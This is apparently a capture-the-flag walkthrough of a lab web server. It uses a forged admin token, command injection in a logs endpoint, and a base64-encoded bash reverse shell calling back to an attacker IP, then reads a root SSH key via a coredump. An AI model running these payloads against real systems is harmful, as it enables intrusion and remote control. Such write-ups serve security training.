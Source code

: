 then i used `burpsuite + repeater` to check if i would be admin
```
GET /api/priv HTTP/1.1
Host: 10.10.11.120
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-GPC: 1
Accept-Language: en-US,en
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiIzMTMxMzEzMSIsIm5hbWUiOiJ0aGVhZG1pbiIsImVtYWlsIjoicm9vdEBkYXNpdGgud29ya3MiLCJpYXQiOjE2Mjg3Mjc2Njl9.12tqqp2h6h_GuYX7THeeF4taq71NA9B4HH2oi1PvpNE
```
And i got
```js
{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}
```
This means we have admin token and can do things
in this directory we can do this with same payload
```
GET /api/logs?file=;id HTTP/1.1
```
and response will be
```
"80bf34c fixed typos 🎉\n0c75212 now we can view logs from server 😃\nab3e953 Added the codes\nuid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```
This means we can do `RCE` to get reverse shell. In burp do this
```
GET /api/logs?file=; echo -n 'YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8xMjM0ICAwPiYx' | base64 -d | bash HTTP/1.1
```
`url-encode`that and we will get `reverse shell`
```
GET /api/logs?file=;echo+-n+'YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNy8xMjM0ICAwPiYx'+|+base64+-d+|+bash HTTP/1.1
```
on `netcat`
```bash
rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.120] 37276
bash: cannot set terminal process group (1115): Inappropriate ioctl for device
bash: no job control in this shell
dasith@secret:~/local-web$ script /dev/null -c bash
```
***
User Flag is: 28ae49669c844ba862cd52c38ec85a77
***
do `ssh-keygen`if you want `ssh`connection
`linpeas.sh`showed that there is an unusual binary in `/opt`which is named `count`which reads files and tells `how many words, lines there are` reading the source code which is `code.c`
```
// Enable coredump generation
    prctl(PR_SET_DUMPABLE, 1);
```
This means that we have to do `coredump`and we will be able to read the file.
```bash
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
```